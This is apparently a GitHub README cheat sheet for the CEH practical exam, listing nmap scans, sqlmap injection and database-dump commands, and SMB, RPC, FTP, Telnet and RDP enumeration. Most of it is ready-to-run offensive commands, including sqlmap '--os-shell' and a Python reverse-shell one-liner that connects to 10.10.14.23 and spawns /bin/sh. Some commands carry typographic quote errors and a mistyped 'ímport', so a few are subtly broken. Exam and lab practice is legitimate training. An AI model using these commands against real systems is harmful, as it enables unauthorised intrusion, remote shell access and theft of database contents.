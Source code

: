 # CEH-Practical-Cheatsheet

This is a quick cheat sheet to refer to when practising for the CEH practical exam. The exam assesses your skills in attacking common services such as FTP, SMB and your enumeration skills. This is not a hard exam and is perfect for beginner pentesters.

## NMAP

- Scan a single IP	            	 `nmap 192.168.1.1`
- Scan a host	                    `nmap www.testhostname.com`
- Scan a range of IPs	            `nmap 192.168.1.1-20`
- Scan a subnet	                    `nmap 192.168.1.0/24`
- Scan targets from a text file	    `nmap -iL list-of-ips.txt`

- Scan a single Port	                `nmap -p 22 192.168.1.1`
- Scan a range of ports	            `nmap -p 1-100 192.168.1.1`
- Scan 100 most common ports (Fast)	`nmap -F 192.168.1.1`
- Scan all 65535 ports	            `nmap -p- 192.168.1.1`

- Scan using TCP connect	                `nmap -sT 192.168.1.1`
- Scan using TCP SYN scan (default)	    `nmap -sS 192.168.1.1`
- Scan UDP ports	                        `nmap -sU -p 123,161,162 192.168.1.1`
- Scan selected ports - ignore discovery	`nmap -Pn -F 192.168.1.1`

- Detect OS and Services	            `nmap -A 192.168.1.1`
- Standard service detection	        `nmap -sV 192.168.1.1`
- More aggressive Service Detection	    `nmap -sV --version-intensity 5 192.168.1.1`
- Lighter banner grabbing detection	    `nmap -sV --version-intensity 0 192.168.1.1`

- Save default output to file	        `nmap -oN outputfile.txt 192.168.1.1`
- Save results as XML	                `nmap -oX outputfile.xml 192.168.1.1`
- Save results in a format for grep	    `nmap -oG outputfile.txt 192.168.1.1`
- Save in all formats	                `nmap -oA outputfile 192.168.1.1`


- Scan using default safe scripts	    `nmap -sV -sC 192.168.1.1`
- Get help for a script	                `nmap --script-help=ssl-heartbleed`
- Scan using a specific NSE script	    `nmap -sV -p 443 –script=ssl-heartbleed.nse 192.168.1.1`
- Scan with a set of scripts	        `nmap -sV --script=smb* 192.168.1.1`

- Gather page titles from HTTP services	`nmap --script=http-title 192.168.1.0/24`
- Get HTTP headers of web services	    `nmap --script=http-headers 192.168.1.0/24`
- Find web apps from known paths	        `nmap --script=http-enum 192.168.1.0/24`


## SQLMAP

- Simple usage `sqlmap -u “https://target_site.com/page/”`
- Automatic GET request parameter `sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”`
- Use POST request `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2"`
- Request file as input(get it from Burpsuite) `sqlmap -r request.txt`
- Use authenticated session with cookie `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --cookie="Session_Cookie_Value"`
- Use authenticated session with auth headers `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --headers="Authorization: Basic YWxhZGRpbjpvcGVuc2VzYW1l"` 
- Basic authentication `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --auth-type=basic --auth-cred=username:password`

# Post exploitation(use these if the SQLi vuln is positive)

- List databases `sqlmap -u “https://target_site.com/page?p1=value1” --dbs`
- List tables of TARGET_DB `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --tables`
- List columns of TARGET_TABLE in TARGET_DB `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --columns`
- Dump specific data of columns `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump`
- Fully dump table `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --dump`
- Dump the entire database `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump`
- Custom SQL query `sqlmap -u “https://target_site.com/page?p1=value1” --sql-query "SELECT * FROM TARGET_DB;"`
- Get OS shell `sqlmap -u “https://target_site.com/page?p1=value1” --os-shell`
- Get SQL shell `sqlmap -u “https://target_site.com/page?p1=value1” --sqlmap-shell`
- Use attack techniques `sqlmap -u “https://target_site.com/page?p1=value1” --technique=BEUSTQ`
    - B: Boolean-based blind
    - E: Error-based
    - U: Union query-based
    - S: Stacked queries
    - T: Time-based blind
    - Q: Inline queries

### General purpose command

`sqlmap -u “https://target_site.com/page/”--proxy="http://127.0.0.1:8080/" --cookie=”SESSID=lred0jr6na1vmci;” --data=”p1=value1” -p p1 --level=5 --risk=3 --dbms=mysql --technique=BEUSTQ --force-ssl`

## Telnet enumeration

`telnet 192.168.0.1`

## FTP enumeration

`ftp 192.168.0.1`

## SMB Enumeration

`smbmap -H 192.168.0.1 -R`
`smbclient -L 192.168.0.1`
`smbclient \\\\192.168.0.1\\share`

## RPC Enumeration

`rpcclient -U "" -N 192.168.0.1`
`enumdomusers`
`queryuser <username>`

## RDP Enumeration

`xfreerdp /v:10.129.189.90 /cert:ignore /u:Administrator` 

## Shells

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.23\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'`

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

### after obtaining shell

`python -c 'ímport pty;pty.spawn("/bin/sh")'`
